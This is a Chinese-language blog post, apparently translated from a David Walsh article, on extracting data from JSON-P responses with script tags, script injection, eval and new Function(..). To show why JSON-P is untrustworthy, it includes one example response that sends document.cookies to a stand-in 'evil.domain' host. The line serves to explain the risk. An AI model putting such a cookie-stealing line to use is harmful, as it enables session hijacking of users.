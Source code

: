 ```yaml
---
layout: post
category : JavaScript
tagline: ""
tags : [json-p]
---
```

{% include JB/setup %}

<a href="http://davidwalsh.name/unwrapping-jsonp" target="_blank">原文地址</a>

这篇文章主要是讲解`javascript`的技巧,一步步来分析如何解析`jsonp`返回的字符串内容更高效.

注意: 当然现在可以用<a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Access_control_CORS" target="_blank">CROS</a>来解决跨域问题,不过仍然有大量的`jsonp`服务端api接口,一般是用来处理`ajax`请求

通过`jsonp`调用返回得到像这样的脚本`foo({"id":42})`字符串,如何高效的提取里面的内容呢?

### Classic JSON-P Handling

通常的做法是直接加载`jsonp`数据在附加的`<script>`元素中,假如下面的`url`可以直接获取数据:

```js

var s = document.createElement( "script" );
s.src = "http://some.api.url/?callback=foo&data=whatever";
document.head.appendChild( s );

```

假设`foo({"id":42})`是直接从上面的`url`返回的,并且在全局环境中存在`foo`这样的函数,然后最终执行方法得到里面的数据对象.

像这样的处理方式已经有很多库或者框架存在了,我之前也写了<a href="https://gist.github.com/1576277/f4aead6741e0d7b0c40db6601048d9db6be1a5f9" target="_blank">jXHR</a>库用来自动处理这种函数调用,而且提供了类似于`XHR`的语法:

```js

var x = new jXHR();

x.onreadystatechange = function(data) {
    if (x.readyState == 4) {
        console.log( data.id ); // 42
    }
};

x.open( "GET", "http://some.api.url/?callback=?&data=whatever" );

x.send();

```

### JSON-P roblems

上面的这种处理方式会产生一些问题.

第一个最常见的问题就是,全局环境中必须存在一个`foo(..)`这样的函数定义,一些`jsonp`接口允许返回像这样的`bar.foo(..)`回调,这种结构有时是不被允许的,即使`bar`是全局变量或者命名空间.当`js`和`web`向`es6`转变时,比如其中的`module`,当全局变量越重的时候，代码就会越来越不可维护.

不过,`jXHR`可以自动生成一个唯一的函数名(像`jXHR.cb123(..)`)来适应接口返回的名字,所以我们可以不用关心这些细节,因为自动生成的函数就在`jXHR`命名空间下,这点还是可以接受的.

但是这总归不是一个完美的解决方案,假如不需要库来实现解析的功能肯定是非常不错的.

另一个问题就是随着`jsonp`接口的增多，页面中需要增加的`script`元素就会增多,这会弄乱整个dom

虽然大部分的库(比如`jXHR`)会自动的清除掉用完的`script`元素,但是频繁的操作`dom`会降低整个页面的性能.

终于,出现了这篇文章<a href="http://json-p.org/" target="_blank">concerns over the safety/trustability of JSON-P</a>,因为`jsonp`只是随机的`js`,任何`js`都可以注入进来.

例如,假如返回下面这样的数据:

```js

foo({"id":42});(new Image()).src="http://evil.domain/?hijacking="+document.cookies;

```

就像你看到的，上面的代码会执行一些你想像不到的代码,获取到你的`cookies`了

<a href="http://json-p.org/" target="_blank">json-p.org</a>试图定义一个`jsonp`的子集,用来提供一些工具来对`jsonp`的内容进行验证,最后得到一个安全的数据内容.

但是你不能直接验证从`script`元素`url`返回的内容

所以,让我们看看其它的方案

### Script Injection

首先,你可以获取到`jsonp`返回的字符串内容(比如从同源的ajax请求返回),在解析它之前你可以进行某些处理

```js

var jsonp = "..";

// first, do some parsing, regex filtering, or other sorts of
// whitelist checks against the `jsonp` value to see if it's
// "safe"

// now, run it:
var s = document.createElement( "script" );
s.text = jsonp;
document.head.appendChild( s );

```

这里,我们使用`script injection`来运行`jsonp`代码(这样保证在任何时候可以对它进行处理)，通过设置`text`属性来存放内容(与放在`src`属性上完全不同)

当然这种方式仍然少不了全局函数或者命名空间来处理`jsonp`字符串，而且因为`script`标签元素的引用也会带上页面性能的损失.

另外就是以`script`为基础来处理`jsonp`都会有一个问题,就是不能处理异常,因为你没有任何时基来添加`try...catch..`代码(除非在`jsonp`字符串内部增加)

其它一个缺陷就是`script`深度依赖`browser`，假如代码想在`node`环境下使用的话,则不能使用它来处理

所以,还有别的选择吗?

### Direct Evaluation

也许你认为,为什么我们不能直接使用`eval(jsonp)`来解析内容呢,当然你可以这样做,不过随之而来的是一大堆的缺陷

通常反对使用`eval`,是因为它会用来执行`不可信任的代码`,不过这些细节我们可以提前通过其它手段让这些代码可信任,如果可以的话.

其实真实的原因是因为`eval`本身执行的问题,它会禁用变量词法作用域的性能优化,从而导致`js`代码的性能下降,所以你应该<a href="https://github.com/getify/You-Dont-Know-JS/blob/master/scope%20&%20closures/ch2.md#eval" target="_blank">never, ever use eval(..)</a>.

不过这里我们还有另外一种方案而且没有缺陷,那就是使用`Function(..)`构造函数,它不但可以直接计算代码在没有`script`的情况下(所以可以在`nodejs`下运行),而且不需要定义全局函数或者命名空间

下面的代码说明了它的实现:

```js

var jsonp = "..";

// parse/filter `jsonp`'s value if necessary

// wrap the JSON-P in a dynamically-defined function
var f = new Function( "foo", jsonp );

// `f` is now basically:
// function f(foo) {
//    foo({"id":42});
// }

// now, provide a non-global `foo()` to extract the JSON
f( function(json){
    console.log( json.id ); // 42
} )

```

所以,`new Function( "foo", "foo({\"id\":42})" )`创建了一个`function(foo){ foo({"id":42}) }`名为`f`的函数.

你能明白这里发生了什么吗?是的,`jsonp`调用`foo(..)`,但是`foo(..)`不需要任何存在的全局同名函数或者命名空间,只是在调用`f( function(json){ .. } )`时,注入了一个同名的本地参数,是不是非常不错.

所以:

1. 我们手动的解析`jsonp`内容,让我们有机会来对内容进行过滤处理
2. 我们不在需要任何全局函数或者命名空间来处理`jsonp`内容
3. `Function(..)`没有`eval(..)`那样的性能损失(因为它没有作用域的副作用)
4. 这种方案可以同时在`browser`或者`nodejs`环境下使用,因为它没有依赖`script`元素
5. 我们可以更好的进行异常控制,因为你可以在`f(..)`时添加`try..catch`,但是使用`script`的话是做不到的

这些是完胜`script`方案的

### 总结

是不是`Function(..)`就是最完美的方案呢?当然不是,但是它要比传统的`jsonp`处理方式要好多了.

所以,假如你仍然在使用`jsonp`接口调用的,有很多选择的话,你可以重新想想还有什么方案适合它,大部分情况下,老式的`script`方法是不推荐使用的.








